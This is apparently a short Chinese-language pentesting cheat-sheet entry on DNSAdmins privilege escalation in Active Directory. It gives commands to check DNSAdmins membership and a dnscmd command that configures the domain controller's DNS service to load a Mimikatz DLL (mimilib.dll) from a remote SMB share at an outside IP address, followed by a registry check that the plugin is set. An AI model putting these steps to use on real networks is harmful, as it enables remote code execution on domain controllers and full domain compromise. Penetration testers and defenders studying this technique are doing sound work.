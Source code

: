 # DNSAdmin

当我们可以访问恰好是DNSAdmins组成员的用户帐户时，或者当受感染的用户帐户具有对DNS服务器对象的写特权时，可以使用此方法。您可以使用以下命令检查用户是否在DNSAdmins组中：

```powershell
# 查看是否存在DNSAdmins组中
net user <userName> /domain
eg: net user comp /domain

- regedit

# 将dll注入到dns中
dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.100.41:8088\mimilib.dll

# 检查dll是否注入到dms中
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```
